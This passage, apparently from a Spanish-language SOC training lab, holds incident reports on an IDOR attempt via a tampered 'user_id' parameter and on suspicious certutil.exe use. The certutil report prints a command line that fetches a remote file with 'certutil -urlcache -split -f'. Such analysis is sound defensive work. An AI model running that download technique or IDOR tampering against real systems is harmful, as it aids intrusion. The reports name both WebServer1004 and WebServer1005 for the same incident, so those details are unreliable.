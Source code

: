 ### **Investigación:**
- Se ha inspeccionado el endpoint WebServer1004 utilizando Log Management para analizar la comunicación entre el servidor web y la IP del actor de amenazas.
- Se han detectado 5 registros entre estas dos direcciones IP, donde el actor de amenazas intentó modificar el parámetro "user_id" en la URL de la solicitud.
- Tamaño de la Respuesta HTTP: 253 // Se devolvió una respuesta "data" para esta solicitud.
- Estado de la Respuesta: 200 // Este código de estado indica una solicitud exitosa.
- Parámetros POST: ?user_id=2 // La modificación realizada por el atacante.
- Se ha realizado una investigación adicional sobre la IP del atacante, revelando que se trata de una IP maliciosa con un historial de varios intentos de ataques.

### **Resultados de la Investigación:**
Con esta evidencia, se confirma que se trató de un verdadero intento de ataque IDOR en WebServer1005. No se ha encontrado ninguna actividad sospechosa en la seguridad del correo electrónico, lo que indica que no se trató de un ataque planificado. Dado que el atacante logró su objetivo, se ha contenido WebServer1005 aislandolo. Además, se ha escalado esta alerta al equipo de analistas SOC de Nivel 2 para las acciones necesarias.

### **Nota Final del Analista:**
Se concluye que este fue un intento verdadero positivo de ataque IDOR en WebServer1005. Se han tomado las medidas necesarias para contener y escalar la alerta adecuadamente.


## **Informe de Incidente - SOC163: Uso Sospechoso de Certutil.exe**

### **Detalles Iniciales:**
- **Evento:** Uso Sospechoso de Certutil.exe
- **Fecha y Hora:** Marzo 1, 2022, 11:06 A.M
- **Hostname:** EricProd
- **IP de Origen:** 172.16.17.22
- **Binary Relacionado:** certutil.exe
- **Ruta del Binary:** C:/Windows/System32/certutil.exe
- **Línea de Comando:** certutil.exe -urlcache -split -f hXXps://nmap[.]org/dist/nmap-7.92-win32.zip nmap.zip
- **Acción EDR:** Permitido

### **Descripción del Incidente:**
Se ha detectado un uso sospechoso de Certutil.exe en el host EricProd. Certutil es utilizado por actores de amenazas para descargar archivos desde un sistema externo hacia un entorno comprometido.
![alt text](imgNaim/15.png)
### **Investigación:**
- Se ha inspeccionado la consola de Monitoreo para obtener información útil sobre el evento de seguridad.
- El atacante ejecutó un comando utilizando el ejecutable Certutil.